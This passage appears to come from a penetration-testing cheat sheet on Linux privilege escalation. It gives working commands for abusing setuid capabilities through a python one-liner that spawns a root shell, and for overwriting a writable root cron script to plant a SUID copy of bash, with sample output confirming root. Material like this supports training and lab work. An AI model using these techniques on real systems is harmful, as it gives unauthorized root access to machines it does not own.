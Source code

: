 Alternatively the following capabilities can be used in order to upgrade your current privileges.

```sh
cap_dac_read_search # read anything
cap_setuid+ep # setuid
```

* In command prompt type:
`/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'`
* Enjoy root!


## Priv Esc Via Cron


## Understanding Cron Job Privilege Escalation
Cron jobs are scheduled tasks that run automatically in Linux. If a cron job is misconfigured to execute a script that a low-privileged user can modify, it can be abused for privilege escalation.

### Identifying Vulnerable Cron Jobs
To check system-wide cron jobs:
```sh
cat /etc/crontab
```
Example output:
```sh
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```
- These jobs run **every minute** (`* * * * *`) as **root**.
- The script `overwrite.sh` is executed **without an absolute path**, meaning the system searches for it in directories listed in `$PATH`, including user-writable locations.

### Exploiting a Writable Script
If `overwrite.sh` is writable by a low-privileged user, they can modify it to escalate privileges:
```sh
echo 'cp /bin/bash /tmp/bash && chmod +s /tmp/bash' > /home/user/overwrite.sh
chmod +x /home/user/overwrite.sh
```
**Explanation:**
- This script **copies** `/bin/bash` to `/tmp/bash`.
- Sets the **SUID** bit (`chmod +s`), allowing it to always execute as root.

### Gaining Root Access
Once the cron job executes, the attacker runs:
```sh
/tmp/bash -p
```
**Verification:**
```sh
id
```
Example output:
```sh
uid=1000(TCM) gid=1000(user) euid=0(root)
```
The **effective user ID (`euid=0`) is root**, confirming privilege escalation.
